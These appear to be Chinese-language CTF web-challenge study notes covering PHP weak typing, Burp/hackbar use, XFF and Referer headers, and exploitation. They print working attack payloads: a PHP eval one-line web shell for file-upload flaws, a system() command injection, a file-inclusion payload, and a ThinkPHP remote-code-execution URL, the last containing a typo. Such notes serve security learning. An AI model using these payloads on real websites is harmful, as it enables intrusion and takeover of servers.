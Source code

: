 ## 一些解题思路

- 在url后面加入`index.php?`进行传参.【php弱类型比较？？`'abc'==0`??

- 使用*f12*查看元素

- 使用*hackbar*对服务器传递参数（发送*post*请求）

- 在*firefox*上设置代理，在*burp*上对数据包进行截取修改。（一般是网站有传参的时候才会使用*burp*对数据包进行拦截和修改）

- ***php shell***

  直接在`post`中传递shell命令获取flag：`shell=system('cat flag.txt')`;也可以通过`find`命令在`/`目录下查找`flag.txt`文件，然后使用`cat`命令获取`flag.txt`的文件内容。

- ***web shell***

  利用文件上传漏洞，往目标网站中上传一句话木马，然后就可以在本地通过中国菜刀chopper.exe即可获取和控制整个网站目录。

  `<?php @eval($_POST['attack']) ?>`

  @表示后面即使执行错误也不报错。`eval()`函数表示括号内的语句字符串什么的全都当做代码执行。

- 浏览器服务器接收到url的参数时会先自动对参数值进行**解码**。比如`%`会先编码为`%25`.

- **文件包含**

  `?page=http://127.0.0.1/index.php/?hello=<?show_source("fl2gisisish3r3.php");?>`

  利用**文件包含**将`page`后面的参数全部当做php来执行，此时该文件应该在本地服务器且为`index.php`。又因为存在`echo $_GET["hello"];`以`get`方法接收`hello`，又因为**文件包含**将`hello`后面的值当做代码执行，调用系统命令。

  


***XFF(X-Forwarded-For)***代表客户端，也就是HTTP的请求端真实的ip，只有在通过了HTTP代理或者负载均衡服务器时才会添加该项。

***HTTP Referer***是header的一部分，当浏览器向web服务器发送请求的时候，一般会带上Referer，告诉服务器我是从哪个页面链接过来的。



## ThinkPHP漏洞

ThinkPHP远程代码执行：

`/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&var[1]]=(系统命令)`

















 













































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































